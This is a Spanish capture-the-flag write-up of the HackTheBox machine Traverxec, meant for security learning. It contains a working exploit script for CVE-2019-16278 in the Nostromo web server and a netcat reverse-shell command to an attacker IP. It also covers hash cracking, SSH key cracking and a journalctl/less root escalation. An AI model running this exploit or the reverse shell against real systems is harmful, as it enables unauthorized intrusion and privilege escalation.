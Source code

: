 ```yaml
---
title: HTB-TRAVERXEC
author: Christian Gutierrez
date: 2020-11-25 14:10:00 -0500
categories: [HackTheBox, Easy]
tags: [HTB, Linux, journalctl, cracking]
image: /assets/htb/05_traverxec/portada.PNG
---
```

## Decripción del entorno
### <span style="color:green">Atacante</span>

| OS          | Kali Linux          |
| IP          | 10.10.14.67         |

### <span style="color:green">Maquina Objetivo</span>

| OS          | Linux             |
| IP          | 10.10.10.165        |
| Dificultad  | 4.7/10 / **Easy** |
| URL         | [**TraverXec**](https://www.hackthebox.eu/home/machines/profile/217)    |

## Enumeración
Se realiza la enumeración habitual para el reconocimiento e identificación de los puertos abiertos en el sistema: 
```console
$ nmap -sS -sV -sC -oA nmap_traverxec 10.10.10.165
```

![Escaneo con Nmap](/assets/htb/05_traverxec/01_nmap.png)
_Resultado escaneo con nmap_

Validando las cabeceras **HTTP** en el puerto **80** identificamos un servidor `Nostromo 1.9.6` el cual expone una aplicación web: 

![Puerto 80](/assets/htb/05_traverxec/02_puerto_80.png)
_Aplicación en el puerto 80_

Se realiza la busqueda pública de exploit's o CVE's que afecten al servicio `Nostromo`, hallando el **CVE-2019-16278**: 
- <https://github.com/jas502n/CVE-2019-16278>

Este exploit en ejecución es bastante directo, pues consta de un **Directory Traversal and Remote Code Execution** el cual, a través de la URL accedemos a un binario como  `/bin/sh`, y también permite pasarle los parámetros a ejecutar mediante POST:

```bash
#!/usr/bin/env bash

HOST="$1"
PORT="$2"
shift 2

( \
    echo -n -e 'POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0\r\n'; \
    echo -n -e 'Content-Length: 1\r\n\r\necho\necho\n'; \
    echo "$@ 2>&1" \
) | nc "$HOST" "$PORT" \
  | sed --quiet --expression ':S;/^\r$/{n;bP};n;bS;:P;n;p;bP'
```
Como alternativa al exploit se puede ver la ejecución practica del exploit con BurpSuite:
 - <https://www.youtube.com/watch?v=-preplELiy8>

Con lo anterior, ejecutamos una Shell reversa usando **netcat**:
- `nc 10.10.14.67 4646 -e /bin/sh`
- `nc -nvlp 4646`

![Shell reversa](/assets/htb/05_traverxec/04_shell_david.png)
_Ejecución de una reverse shell_

Una vez con la Shell, contamos con los privilegios del usuario `www-data` y se realiza la recolección de información para intentar escalar hacia el usuario `David`. Se identifica el archivo de configuración del sistema `nostromo`:

```console
$ cat /var/nostromo/conf/
```

Se identifican diferentes archivos interesantes:
- `.htpasswd`
- `nhttpd.conf`

Del primer archivo se logra identificar un hash, así que procedemos a realizar un proceso de **password cracking**:

```console
$ hashcat –force -m 500 -a 0 hash.txt rockyou.txt
```

![Hashcat](/assets/htb/05_traverxec/05_hashcat_david.png)
_Ejecución de Hashcat_

- David: **Nowonly4me**

A pesar obtener credenciales de acceso, no encontramos un sitio para activarlas o impersonar al usuario **David**, así que analizando el archivo `nhttpd.conf` y descubrimos que existen varios directorios como **“home dirs”**:
- `/home`
- `/public_www`

Desde la pagina web, se puede ingresar al directorio `~/David/`:

![Carpeta David](/assets/htb/05_traverxec/06_david_home.png)
_Desde el servidor al directorio David_

También se intenta con `/protected-file-area/`:

![Directorio Privado](/assets/htb/05_traverxec/07_directorio_privado.png)
_Directorio Privado_

Esto nos permite acceder directamente al contenido:

![Descarga de Archivos](/assets/htb/05_traverxec/08_descarga_archivos.png)
_Descarga de archivos_


Descargamos el archivo `id_rsa` y se observa que esta protegido por una contraseña, así que se procede a transformar y extraer el hash en formato **john**:
```console
$ ssh2john id_rsa
```

![id_rsa](/assets/htb/05_traverxec/09_id_rsa.png)
_Archivo Id_RSA_

Se realiza un ataque de password cracking con **John The Ripper**:

![Cracking](/assets/htb/05_traverxec/10_password_cracking.png)
_Cracking del id_rsa_

Teniendo la clave, se realiza la conexión **SSH** al servidor como el usuario **David**: 

![Acceso David](/assets/htb/05_traverxec/11_acceso_david.png)
_Acceso como usuario David_

## Elevación de Privilegios

Ahora, dentro de la carpeta del usuario **David** se identifica una carpeta `/bin/` que tiene el siguiente archivo bash: 

![Archivos binarios](/assets/htb/05_traverxec/12_priv_escalation.png)
_Archivos binarios_

Del contenido del archivo, identificamos la última línea como la importante, debido a que hace `sudo` de un servicio para ejecutar como **root** el comando `journalctl`: 
```console
$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

En este punto de la escala de privilegios, consultamos **gtfobins**:
- <https://gtfobins.github.io/gtfobins/journalctl/>

Nos brinda información importante sobre cómo abusar del binario `jounalctl` para escalar privilegios en casos donde tenemos su ejecución privilegiada o mal configurada:

![jounalctl](/assets/htb/05_traverxec/13_exploit_journalctl.png)
_Explotación binario jounalctl_

> NOTA:
> Es importante decir, que en este punto toma tiempo entender plenamente la forma de ejecución del posible vector de escala de privilegios, debido a que la ejecución era muy rápida y no permitía ingresar los comandos apropiados. 

El comando `journalctl` hace uso del servicio `less` para mostrar en pantalla todo el contenido de las últimas líneas de los **logs** del servicio `nostromo.service`, sin embargo, el comando esta atado a mostrar solo **5 líneas de logs** (`-n 5`) por lo que NO nos da tiempo de ejecutar e ingresar la expresión `¡/bin/sh` para obtener la Shell. 

La forma de solucionar este problema es más que simple, recursiva y curiosa. Solo se debe **ajustar la el tamaño de nuestra terminal** para que no muestre completamente el contenido de las líneas, pues al faltarle contenido de forma horizontal, el servicio `less` (que es el que ejecuta de fondo) se ve obligado a activar el ingreso de datos para movernos a la información que no se puede mostrar, lo que nos da tiempo de ingresar el comando y ejecutar la Shell: 

![Privilegios](/assets/htb/05_traverxec/14_root_maquina.png)
_Privilegios Root_

Bytez ;)

## Referencias
- Analisis de binarios en linux para aprovechar configuraciones inseguras: 
  - <https://gtfobins.github.io/gtfobins/journalctl/>
